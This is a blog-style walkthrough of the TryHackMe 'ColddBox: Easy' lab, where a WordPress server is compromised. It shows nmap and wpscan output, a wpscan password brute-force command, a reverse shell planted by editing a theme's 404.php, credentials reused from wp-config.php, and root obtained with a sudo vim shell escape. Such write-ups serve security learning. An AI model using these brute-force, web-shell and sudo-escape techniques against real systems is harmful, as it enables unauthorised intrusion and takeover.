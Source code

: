 
[TryHackMe Link](https://tryhackme.com/room/colddboxeasy){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this CTF, I was able to successfully exploit a WordPress server using a combination of tools and techniques. In this blog post, I will share my experience and provide insights on how I was able to get the initial foothold, escalate my privileges, and finally became root.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```sh linenums="1" hl_lines="6 10"
  # Nmap 7.93 scan initiated Mon Feb 20 13:34:05 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.237.179
    Nmap scan report for 10.10.237.179
    Host is up (0.15s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.1.31
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: ColddBox | One more machine
    4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4ebf98c09bc536808c96e8969565973b (RSA)
    |   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
    |_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/20%OT=80%CT=1%CU=42564%PV=Y%DS=5%DC=I%G=Y%TM=63F36FE
    OS:8%P=aarch64-unknown-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Feb 20 08:04:40 2023 -- 1 IP address (1 host up) scanned in -19765.28 seconds
  ```

## <b>Enumeration</b>

The first step in this process was to enumerate the webserver (WordPress) with its vulnerable plugins, themes, and users using wpscan. 

!!! tip "User Enumeration" 
    <p id="desc" style="font-size:20px">```wpscan --url http://$IP -e  u```</p>

After running this command, it returned c0ldd, philip, and hugo as usernames.

```sh linenums="1" hl_lines="50 54 58"
[+] URL: http://10.10.237.179/ [10.10.237.179]
[+] Started: Mon Feb 20 13:13:31 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.237.179/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.237.179/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.237.179/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.237.179/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.237.179/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.10.237.179/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://10.10.237.179/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <========================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

```

I decided to brute force the usernames and passwords using wpscan's built-in feature.

!!! bug "Brute Force" 
    <p id="desc" style="font-size:20px">```wpscan --url $IP -U 'c0ldd,hugo,philip' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt```</p>
    

```sh linenums="1" hl_lines="7 9 10"
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=======================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / {--REDACTED--}                                                                                        
^Cying philip / beanie Time: 00:09:52 <========                                 > (8839 / 40665) 21.73%  ETA: 00:35:35
[!] Valid Combinations Found:
 | Username: c0ldd, Password: {--REDACTED--}

[!] No WPScan API Token given, as a result vulnerability data has not been output.(8844 / 40665) 21.74%  ETA: 00:35:34
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Feb 20 13:32:05 2023
[+] Requests Done: 8984
[+] Cached Requests: 38
[+] Data Sent: 2.909 MB
[+] Data Received: 32.484 MB
[+] Memory used: 304.16 MB
[+] Elapsed time: 00:09:59
```
## <b>Initial Access</b>

Quickly, I directed to ```/wp-login.php``` to verify login with the harvested credentials -- {++c0ld:REDACTED++}

<img id="image1" />

After successfully logging in using the credentials for `c0ldd`, I edited the 404.php file in the appearance tab of the themes section to add a reverse shell. This allowed me to get my initial foothold into the web server. 

<img id="image2" />

I opened a listener on another tab and then opened the 404.php file in my browser. As a result, I gained access to the server with the `www-data` privilege.

<img id="image3" />
<img id="image4" />

## <b>Privilege Escalation</b>

### <b>Gaining User access</b>

As www-data, I didn't initially have access to any juicy information. However, I was able to run linpeas.sh, which helped me to find some credentials that were left in the wp-config.php file. 

<img id="image5" />

 I copied the username and password and attempted to access the `3306` port that was running on `127.0.0.1` but had no luck. Finally, I tried using the same credentials to log in to the `c0ldd` account. This was a success, and I was able to escalate my privilege from `www-data` to `c0ldd`.

### <b>Gaining Root access</b>

As `c0ldd`, I ran sudo -l as I already knew his password. The output showed that Vim could be run as sudo.

<img id="image6" />

With this knowledge, I was able to execute the command 

!!! success "Sudo Command"
    <p id="desc" style="font-size:20px">```sudo vim -c ':!/bin/sh'```</p>

from [GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo). This allowed me to edit a file that was owned by root, thereby giving me access to the root user. As a result, I was able to escalate my privilege once again and become root.

<script>
// JSON object
const data = {
    "desc": "An easy level machine with multiple ways to escalate privileges.",
    "ip":  "10.10.237.179",
    "ports": "80/tcp,http,Apache httpd 2.4.18;4512/tcp,ssh,OpenSSH 7.2p2 Ubuntu 4ubuntu2.10",
    "difficulty":"easy",
    "id": "1"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImages = 5;
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>